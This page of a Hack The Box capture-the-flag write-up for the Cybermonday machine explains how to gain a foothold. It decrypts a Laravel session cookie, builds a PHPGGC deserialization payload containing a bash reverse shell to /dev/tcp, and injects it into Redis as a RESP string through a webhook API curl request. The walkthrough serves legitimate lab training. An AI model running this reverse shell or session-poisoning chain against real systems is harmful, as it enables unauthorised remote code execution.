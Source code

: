 # Gaining a Foothold

[Initial Enumeration](/writeups/machines/htb-cybermonday/1-initial-enumeration)
[Webhook API Admin Access](/writeups/machines/htb-cybermonday/2-webhook-api-admin)
[Obtaining More Info](/writeups/machines/htb-cybermonday/3-obtaining-more-info)
[**Gaining a Foothold**](/writeups/machines/htb-cybermonday/4-gaining-a-foothold)
[Where to Now?](/writeups/machines/htb-cybermonday/5-where-to-now)
[Reading the Source](/writeups/machines/htb-cybermonday/6-reading-the-source)
[Composing Root Access](/writeups/machines/htb-cybermonday/7-composing-root-access)

Now that we have a possible attack vector we need to figure out how to implement it. In order to poison our [[laravel|Laravel]] session we need to know what the key for it is called in the [[redis|Redis]] server. Laravel stores that information in a cookie that's sent to the client, however we can't just read it as it's encrypted. Lucky for us, thanks to the `.env` file, we have the key to that encryption. There are a number of scripts around to perform this decryption for us. I used the one from [hacktricks here](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/laravel#decrypt-cookie). Once you have the decryption script, set the app_key to the one in the `.env` file. Also take note of the `REDIS_PREFIX` value while you're there as we'll need this later.

Before we poison our session we'll need something to poison it with. First, download [PHPGGC](https://github.com/ambionics/phpggc) if you don't already have it. Next we need to prepare a payload to use. PHPGGC has a number of [[rce|RCE]] exploits we could use, but some will and won't work depending on the version of Laravel. If one doesn't work, try the next. For the function and parameter we provide `phpggc` we'll use:
```bash
exec "/bin/bash -c 'bash -i >& /dev/tcp/<your ip>/<your port> 0>&1'"
```

Next we need a valid session cookie. Go back to the Cybermonday shopping site and log in again if you've been logged out. Open up the dev tools for your browser and copy the cookie value for `cybermonday_session`. The value is URL encoded to make sure to decode it before using it in the script we downloaded before. The decrypted value will be formatted as `<User Id>|<Session Id><Buffer Bytes>`. Copy the session id down for use in the next step.

Now we have our payload and session id, we need to prepare them in both the [[redis|RESP]] protocol format, and then escape that string for use in our JSON. For passing a command, your RESP formatted string should look like:
```
*3\r\n$3\r\nSET\r\n$56\r\nlaravel_session:<your session id>\r\n$<payload length before JSON escape>\r\n<payload>\r\n
```

So whats going on here? Well commands are passed to RESP as an array. We're passing 3 arguments so we start our string with `*3` with `*` specifying that this is an array. Each data type identifier or piece of data is ended with `\r\n`. Next we specify the command we want to use. Our command `SET` is 3 bytes long so we specify the length as `$3` with `$` specifying that this is a "bulk string". Next is our actual command `SET`, and what follows is the same procedure with our `key` and `value` arguments for the full command. Next we escape the string so that it's passed to the webhook server properly, and we send our `curl` request:
```bash
curl http://webhooks-api-beta.cybermonday.htb/webhooks/<webhook guid> \
-H 'x-access-token: <your token>' \
-H 'Content-Type: application/json' \
-d '{"url": "http://redis:6379", "method": "<your prepared resp string>"}'
```

Make sure you've started your `netcat` listener, and then refresh the Cybermonday page. If all goes well, you'll have a reverse shell. If you get a deserialization error in Laravel that starts at byte 0, there was probably an issue in your formatting when sending the request. If the deserialization error starts at a later byte, or you get a different error, try a different `phpggc` exploit.

Next: [Where to Now?](/writeups/machines/htb-cybermonday/5-where-to-now)